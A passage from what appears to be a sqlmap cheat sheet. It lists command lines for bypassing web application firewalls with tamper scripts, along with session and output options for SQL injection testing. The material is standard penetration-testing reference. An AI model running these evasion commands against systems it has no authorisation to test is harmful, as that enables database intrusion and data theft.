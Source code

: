 ### WAF Bypass
```bash
# List available tamper scripts
sqlmap --list-tampers

# Use single tamper script
sqlmap -r request.txt --tamper=space2comment
sqlmap -r request.txt --tamper=randomcase
sqlmap -r request.txt --tamper=equaltolike

# Use multiple tamper scripts
sqlmap -r request.txt --tamper=space2comment,randomcase
```

### Common Tamper Scripts
```bash
# Space bypass
--tamper=space2comment       # Space to /**/
--tamper=space2plus         # Space to +
--tamper=space2randomblank  # Space to random blank char

# Case manipulation
--tamper=randomcase         # Random case keywords
--tamper=uppercase          # UPPERCASE keywords

# Character encoding
--tamper=charencode         # URL encoding
--tamper=charunicodeencode  # Unicode encoding

# Operator bypass
--tamper=equaltolike        # = to LIKE
--tamper=greatest           # > to GREATEST()
```

## Session & Output

### Session Management
```bash
# Flush session
sqlmap -r request.txt --flush-session

# Save session to file
sqlmap -r request.txt -s session.txt

# Load session from file
sqlmap -r request.txt -s session.txt
```

### Output Options
```bash
# Verbose output
sqlmap -r request.txt -v 3

# Save output to file
sqlmap -r request.txt --output-dir=/tmp/sqlmap

# Batch mode (non-interactive) - skip all prompts, use defaults
sqlmap -r request.txt --batch

# Answer yes to all questions
sqlmap -r request.txt --answers="quit=N,follow=Y"
```
